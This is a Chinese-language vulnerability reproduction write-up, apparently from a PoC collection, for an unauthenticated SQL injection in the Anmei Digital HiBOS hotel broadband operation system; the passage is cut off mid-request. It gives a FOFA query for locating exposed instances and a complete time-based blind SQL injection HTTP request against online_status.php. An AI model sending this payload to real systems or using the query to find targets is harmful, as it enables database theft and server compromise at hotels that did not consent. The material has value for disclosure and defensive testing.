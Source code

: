 
# 安美数字酒店宽带运营系统 SQL 注入漏洞复现

### 0x01 产品简介

HiBOS 酒店宽带运营系统隶属于安美世纪（北京）科技有限公司开发的一套酒店宽带管理系统。

### 0x02 漏洞概述

 安美数字酒店宽带运营系统 online\_status.php、language.php 等接口处存在 SQL 注入漏洞，未经身份认证的攻击者可以通过此漏洞获取数据库权限，进一步利用可导致服务器失陷。

### 0x03 复现环境

FOFA：app="安美数字 - 酒店宽带运营系统"

![](assets/1701746621-db4a9f7884414ec471a0ecde89c6b946.png)

### 0x04 漏洞复现 

**PoC-1**

```http
GET /manager/frontdesk/online_status.php?AccountID=1%27+AND+%28SELECT+6097+FROM+%28SELECT%28SLEEP%285%29%29%29ClPT%29--+lMyr HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Conn
```

